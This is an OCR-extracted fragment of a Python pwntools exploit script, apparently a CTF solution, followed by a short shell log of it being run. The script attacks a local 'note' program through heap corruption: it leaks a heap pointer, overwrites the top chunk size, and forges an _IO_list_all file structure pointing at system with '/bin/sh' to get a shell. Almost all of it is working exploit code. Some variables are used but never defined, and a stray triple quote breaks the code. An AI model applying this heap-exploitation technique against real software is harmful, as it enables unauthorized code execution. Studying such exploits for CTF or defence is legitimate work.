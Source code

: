 ```python
r.recvuntil('> ')
r.sendline('1')
print r.recvuntil(': ')
r.sendline('0')
print r.recvuntil(': ')
r.send('a'*24)

r.recvuntil('> ')
r.sendline('3')
print r.recvuntil(': ')
r.sendline('0')

r.recvuntil('a'*24)
top_chunk = r.recvuntil('#')[:-1]
top_chunk = top_chunk+'\x00'*(8-len(top_chunk))
top_chunk = u64(top_chunk)
print hex(top_chunk)
'''
top_chunk = 0x20f81 % 0x1000

#### new top chunk ####

r.recvuntil('> ')
r.sendline('1')
print r.recvuntil(': ')
r.sendline('0')
print r.recvuntil(': ')
r.send('a'*24+p64(top_chunk))

#### sysmalloc ####

r.recvuntil('> ')
r.sendline('1')
print r.recvuntil(': ')
r.sendline('4096')
print r.recvuntil(': ')
r.send('asdf')

#### _IO_list_all overwrite ####

r.recvuntil('> ')
r.sendline('1')
print r.recvuntil(': ')
r.sendline('0')
print r.recvuntil(': ')

offset = 0x3080
control = heap_base + offset

payload = ''
payload += 'a'*8 + p64(system) + '/bin/sh\x00' + p64(0x61) + p64(0) + p64(io_list_all-0x10)+p64(2)+p64(3)+p64(0)*21+p64(control)

r.send(payload)

r.interactive()
```
```shell
note@ip-172-31-20-113:~$ vi /tmp/ex_rls3.py
note@ip-172-31-20-113:~$ python /tmp/ex_rls3.py
[+] Starting local process '/home/note/note': pid 5511
####################
## 1. Add Note    ##
```